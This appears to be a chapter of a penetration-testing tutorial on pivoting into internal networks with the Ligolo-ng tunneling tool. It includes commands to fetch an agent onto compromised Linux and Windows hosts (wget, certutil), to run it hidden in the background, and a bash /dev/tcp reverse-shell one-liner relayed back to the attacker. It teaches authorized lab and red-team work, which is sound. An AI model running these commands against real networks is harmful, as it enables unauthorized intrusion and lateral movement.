




# 🟢 Ligolo-ng Mastery

> **Level: 🟡 Intermediate**
> Master Ligolo-ng — the modern, powerful pivoting tool for full subnet routing.

---

## 📖 Table of Contents

1. [What is Ligolo-ng?](#-1-what-is-ligolo-ng)
2. [Architecture & How It Works](#-2-architecture--how-it-works)
3. [Installation & Setup](#-3-installation--setup)
4. [Basic Pivoting Walkthrough](#-4-basic-pivoting-walkthrough)
5. [TUN Interface & Routing Deep Dive](#-5-tun-interface--routing-deep-dive)
6. [Double Pivoting with Ligolo-ng](#-6-double-pivoting-with-ligolo-ng)
7. [Listener Management (Reverse Connections)](#-7-listener-management-reverse-connections)
8. [Windows Pivot Host](#-8-windows-pivot-host)
9. [Comparison with Other Tools](#-9-comparison-with-other-tools)
10. [Troubleshooting & Tips](#-10-troubleshooting--tips)

---

## 🧠 1. What is Ligolo-ng?

**Ligolo-ng** is an advanced, lightweight tunneling and pivoting tool that creates a virtual network interface (TUN) on the attacker's machine to route traffic through compromised hosts.

### Why Ligolo-ng is a Game-Changer

| Traditional Pivoting | Ligolo-ng |
|---------------------|-----------|
| Per-port forwarding (SSH -L) | **Entire subnet** routing |
| Need proxychains for every tool | Tools work **natively** (no proxychains) |
| SOCKS = TCP only, no ICMP | **Full TCP, UDP, ICMP** support |
| Nmap needs `-sT -Pn` | **Normal nmap** scans work |
| Complex setup | Simple agent ↔ proxy setup |

### Key Features

- ✅ Full subnet routing through a TUN interface
- ✅ No need for proxychains — tools work natively
- ✅ ICMP works (you can `ping` internal hosts!)
- ✅ Normal nmap scans (SYN, UDP, etc.)
- ✅ Double/triple pivoting support
- ✅ Cross-platform (Linux, Windows, macOS)
- ✅ Encrypted communication (TLS)
- ✅ No admin/root needed on the compromised host

---

## 🏗️ 2. Architecture & How It Works

### Components

| Component | Runs On | Role |
|-----------|---------|------|
| **Proxy** | Attacker machine | Receives agent connections, creates TUN interface |
| **Agent** | Compromised host | Connects back to proxy, routes traffic |

### Architecture Diagram



### How Traffic Flows

```
1. You run "nmap 10.10.10.5" on your attacker machine
2. Traffic hits the TUN interface (ligolo)
3. Ligolo proxy sends the packets through the TLS tunnel to the agent
4. Agent forwards packets to 10.10.10.5 on the internal network
5. Response comes back through the same path
6. Your nmap sees the results — as if you're on the internal network!
```



---

## 📦 3. Installation & Setup

### Download

```bash
# From GitHub releases
# https://github.com/nicocha30/ligolo-ng/releases

# Download proxy (for attacker)
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/proxy_linux_amd64
chmod +x proxy_linux_amd64
mv proxy_linux_amd64 proxy

# Download agent (for compromised host)
# Linux
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/agent_linux_amd64

# Windows
# Download agent_windows_amd64.exe
```

### Build From Source

```bash
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng

# Build proxy
go build -o proxy cmd/proxy/main.go

# Build agent
go build -o agent cmd/agent/main.go

# Cross-compile agent for Windows
GOOS=windows GOARCH=amd64 go build -o agent.exe cmd/agent/main.go
```

### Pre-create the TUN Interface (Linux)

```bash
# Create the TUN interface (required before starting proxy)
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

> 💡 This creates a virtual network interface called `ligolo` that Ligolo will use to route traffic.

---

## 🔥 4. Basic Pivoting Walkthrough

### Scenario

```
Attacker (10.0.0.5) → Compromised Host (10.0.0.20) → Internal Network (172.16.1.0/24)
```

**Goal**: Access the internal network (172.16.1.0/24) from the attacker machine.

### Step-by-Step

#### Step 1: Create TUN Interface on Attacker

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

#### Step 2: Start Proxy on Attacker

```bash
./proxy -selfcert
```

Output:
```
INFO[0000] Listening on 0.0.0.0:11601
```

The proxy listens on port **11601** by default.

#### Step 3: Transfer Agent to Compromised Host

```bash
# On attacker — start HTTP server
python3 -m http.server 80

# On compromised host — download agent
wget http://10.0.0.5/agent
chmod +x agent
```

#### Step 4: Run Agent on Compromised Host

```bash
./agent -connect 10.0.0.5:11601 -ignore-cert
```

Output on proxy:
```
INFO[0042] Agent joined. name=VICTIM1 remote="10.0.0.20:54321"
```

#### Step 5: Select the Session on Proxy

```
ligolo-ng » session
? Specify a session: 1 - VICTIM1 - 10.0.0.20:54321
```

#### Step 6: Check Internal Network Info

```
[Agent : VICTIM1] » ifconfig
```

This shows the agent's network interfaces. Look for the internal network interface (e.g., `172.16.1.20`).

#### Step 7: Add Route on Attacker

```bash
# In a separate terminal
sudo ip route add 172.16.1.0/24 dev ligolo
```

#### Step 8: Start the Tunnel

```
[Agent : VICTIM1] » start
```

Output:
```
INFO[0100] Starting tunnel to VICTIM1
```

#### Step 9: Access Internal Network!

```bash
# Now you can directly access internal hosts!
ping 172.16.1.50              # ICMP works!
nmap -sV 172.16.1.50          # Full nmap works!
curl http://172.16.1.50       # HTTP works!
smbclient //172.16.1.50/share # SMB works!
```

### Complete Flow Diagram



---

## 🔧 5. TUN Interface & Routing Deep Dive

### Understanding the TUN Interface

A **TUN interface** is a virtual network interface that works at Layer 3 (IP level). When you create one with Ligolo:

```
Physical Network:          Virtual TUN Network:
┌──────────────┐           ┌──────────────┐
│  eth0        │           │  ligolo      │
│  10.0.0.5    │           │  (tunneled)  │
│              │           │              │
│  Reaches:    │           │  Reaches:    │
│  10.0.0.0/24 │           │  172.16.1.0  │
│              │           │  /24         │
└──────────────┘           └──────────────┘
```

### Route Management

```bash
# Add a route (send 172.16.1.0/24 through ligolo)
sudo ip route add 172.16.1.0/24 dev ligolo

# View routes
ip route show | grep ligolo

# Delete a route
sudo ip route del 172.16.1.0/24 dev ligolo

# Add multiple routes (multiple internal subnets)
sudo ip route add 172.16.1.0/24 dev ligolo
sudo ip route add 10.10.10.0/24 dev ligolo
sudo ip route add 192.168.100.0/24 dev ligolo
```

### Multiple Agents, Multiple Routes

If you have multiple compromised hosts accessing different subnets:

```
Agent 1 (VICTIM1) → Can reach 172.16.1.0/24
Agent 2 (VICTIM2) → Can reach 10.10.10.0/24
```

You select the appropriate session before starting each tunnel:

```
ligolo-ng » session
? Select: 1 - VICTIM1
[Agent : VICTIM1] » start
# Route 172.16.1.0/24 through ligolo

ligolo-ng » session
? Select: 2 - VICTIM2
[Agent : VICTIM2] » start
# Route 10.10.10.0/24 through ligolo
```

> ⚠️ **Note**: You may need multiple TUN interfaces for simultaneous tunnels to different subnets.

---

## 🔗 6. Double Pivoting with Ligolo-ng

### Scenario

```
Attacker (10.0.0.5)
    ↓
Pivot 1 (10.0.0.20 / 172.16.1.20)
    ↓
Pivot 2 (172.16.1.50 / 192.168.100.50)
    ↓
Target (192.168.100.100)
```

Goal: Reach 192.168.100.0/24 through **two** compromised hosts.

### Diagram



### Step-by-Step

#### Phase 1: First Pivot (Attacker → Pivot 1)

```bash
# On attacker
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# On Pivot 1
./agent -connect 10.0.0.5:11601 -ignore-cert

# On attacker proxy
session  # select Pivot 1
sudo ip route add 172.16.1.0/24 dev ligolo
start
```

Now you can reach 172.16.1.0/24.

#### Phase 2: Create Listener for Second Agent

The second agent (on Pivot 2) can't reach the attacker directly. So we create a **listener** on Pivot 1 to relay the connection.

```
# In ligolo proxy, with Pivot 1 session selected
[Agent : PIVOT1] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

This tells Pivot 1 to listen on port 11601 and forward connections to the attacker's proxy.

#### Phase 3: Second Pivot (Pivot 1 → Pivot 2)

```bash
# On Pivot 2 (transfer agent first via Pivot 1)
./agent -connect 172.16.1.20:11601 -ignore-cert
```

The agent connects to Pivot 1's listener, which tunnels back to the attacker's proxy.

#### Phase 4: Route the Second Subnet

```bash
# Create second TUN interface
sudo ip tuntap add user $(whoami) mode tun ligolo2
sudo ip link set ligolo2 up

# In proxy, select Pivot 2's session
session  # select Pivot 2

# Specify the second TUN interface
# (In newer versions, the proxy handles this automatically)

# Add route
sudo ip route add 192.168.100.0/24 dev ligolo2

# Start
start
```

Now you can reach **192.168.100.0/24** — through **two pivots!**

```bash
nmap -sV 192.168.100.100
# Scans the deep internal target through two tunnels
```

---

## 🪟 7. Listener Management (Reverse Connections)

### What is a Listener?

A listener on Ligolo-ng allows you to **expose a port on the compromised host** that forwards traffic back to your attacker machine. This is useful for:

- Receiving reverse shells from internal targets
- Setting up file transfer servers accessible from the internal network
- Relaying agent connections for double pivoting

### Create a Listener

```
# Syntax
listener_add --addr <listen_addr>:<port> --to <forward_addr>:<port> --tcp

# Example: Expose attacker's port 80 on compromised host
[Agent : VICTIM1] » listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp
```

Now internal hosts can reach `http://victim1:80` which actually reaches the attacker's web server.

### Listener for Reverse Shell

```
# Listen on compromised host:4444, forward to attacker:4444
[Agent : VICTIM1] » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
```

```bash
# On attacker: start nc listener
nc -lvp 4444

# On internal target (172.16.1.50): reverse shell to victim1:4444
bash -i >& /dev/tcp/172.16.1.20/4444 0>&1
# Shell comes back to attacker through the tunnel!
```

### View Active Listeners

```
[Agent : VICTIM1] » listener_list
```

### Remove a Listener

```
[Agent : VICTIM1] » listener_stop <id>
```

---

## 🪟 8. Windows Pivot Host

### Using Agent on Windows

```cmd
:: Download agent
certutil -urlcache -split -f http://10.0.0.5/agent.exe agent.exe

:: Run agent
agent.exe -connect 10.0.0.5:11601 -ignore-cert
```

### Running in Background (Windows)

```cmd
:: Use start /B to run in background
start /B agent.exe -connect 10.0.0.5:11601 -ignore-cert

:: Or use PowerShell
Start-Process -WindowStyle Hidden -FilePath agent.exe -ArgumentList "-connect 10.0.0.5:11601 -ignore-cert"
```

### Everything else is the same!

The proxy side (attacker) commands are identical regardless of whether the agent is on Linux or Windows.

---

## ⚖️ 9. Comparison with Other Tools

| Feature | SSH -D | Chisel | Ligolo-ng | Meterpreter |
|---------|--------|--------|-----------|-------------|
| **Full subnet routing** | ❌ | ❌ | ✅ | ✅ (autoroute) |
| **ICMP support** | ❌ | ❌ | ✅ | ❌ |
| **UDP support** | ❌ | Limited | ✅ | Limited |
| **Normal nmap** | ❌ (-sT only) | ❌ (-sT only) | ✅ | ✅ |
| **No proxychains needed** | ❌ | ❌ | ✅ | ✅ |
| **Needs SSH** | ✅ | ❌ | ❌ | ❌ |
| **Single binary** | N/A | ✅ | ✅ | N/A (MSF) |
| **Double pivot** | Complex | Possible | Easy | Easy |
| **Stealth** | Medium | Good | Good | Poor (known sigs) |
| **Speed** | Good | Good | Excellent | Moderate |

### When to Use Ligolo-ng

- 🔹 Need to scan a full internal subnet
- 🔹 Want to use tools natively (no proxychains)
- 🔹 Need ICMP/UDP support
- 🔹 Planning multi-hop pivoting
- 🔹 Want the most "transparent" pivoting experience

---

## 🔧 10. Troubleshooting & Tips

### Common Issues

| Issue | Cause | Solution |
|-------|-------|----------|
| "TUN interface not found" | Didn't create it | `sudo ip tuntap add user $USER mode tun ligolo` |
| Agent won't connect | Firewall blocking port 11601 | Use a different port: `./proxy -selfcert -laddr 0.0.0.0:443` |
| "No route to host" after starting tunnel | Route not added | `sudo ip route add SUBNET dev ligolo` |
| Can't ping internal hosts | TUN not up | `sudo ip link set ligolo up` |
| Agent drops connection | Network instability | Agent will auto-reconnect; check network |
| Permission denied on TUN | Wrong user | Use `user $(whoami)` in tuntap command |

### Useful Proxy Commands

| Command | Description |
|---------|-------------|
| `session` | List/select active sessions |
| `ifconfig` | Show agent's network interfaces |
| `start` | Start tunnel for selected session |
| `stop` | Stop tunnel for selected session |
| `listener_add` | Add a port listener on agent |
| `listener_list` | List active listeners |
| `listener_stop` | Remove a listener |

### Performance Tips

```bash
# Use a specific port for the proxy
./proxy -selfcert -laddr 0.0.0.0:443

# Agent with retry
./agent -connect 10.0.0.5:443 -ignore-cert -retry
```

### Cleanup

```bash
# Remove routes
sudo ip route del 172.16.1.0/24 dev ligolo

# Remove TUN interface
sudo ip tuntap del mode tun ligolo
sudo ip tuntap del mode tun ligolo2

# Kill processes
pkill proxy
pkill agent
```

---

## ⏮️ [← Chisel Tunneling](./03_chisel_tunneling.md) | ⏭️ [Windows Tunneling Tools →](./05_windows_tunneling_tools.md)
